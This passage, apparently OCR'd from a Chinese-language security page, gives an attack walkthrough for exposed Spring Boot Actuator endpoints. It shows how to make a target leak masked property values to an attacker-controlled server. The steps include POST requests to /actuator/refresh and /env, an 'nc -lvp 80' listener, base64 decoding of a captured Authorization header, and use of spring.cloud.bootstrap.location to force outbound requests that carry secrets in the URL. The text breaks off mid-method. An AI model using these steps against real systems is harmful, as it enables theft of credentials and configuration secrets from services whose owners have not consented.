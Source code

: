 
```
POST /actuator/refresh      
Content-Type: application/json
```




步骤五：解码属性值



正常的话，此时 nc 监听的服务器会收到目标发来的请求，其中包含类似如下 Authorization 头内容：



```
Authorization: Basic dmFsdWU6MTIzNDU2
```




将其中的 dmFsdWU6MTIzNDU2部分使用 base64 解码，即可获得类似明文值 value:123456，其中的 123456 即是目标星号 \* 脱敏前的属性值明文。



### 方法三：



**利用条件**：



*   通过 POST /env 设置属性触发目标对外网指定地址发起任意 http 请求

*   目标可以请求攻击者的服务器（请求可出外网）



**利用方法**：



> 参考 UUUUnotfound 提出的 issue-1，可以在目标发外部 http 请求的过程中，在 url path 中利用占位符带出数据



步骤一： 找到想要获取的属性名



GET 请求目标网站的 /env 或 /actuator/env 接口，搜索 \*\*\*\*\*\* 关键词，找到想要获取的被星号 \* 遮掩的属性值对应的属性名。



步骤二： 使用 nc 监听 HTTP 请求



在自己控制的外网服务器上监听 80 端口：nc -lvp 80



步骤三： 触发对外 http 请求



spring.cloud.bootstrap.location 方法（同时适用于明文数据中有特殊 url 字符的情况）：



**spring 1.x**
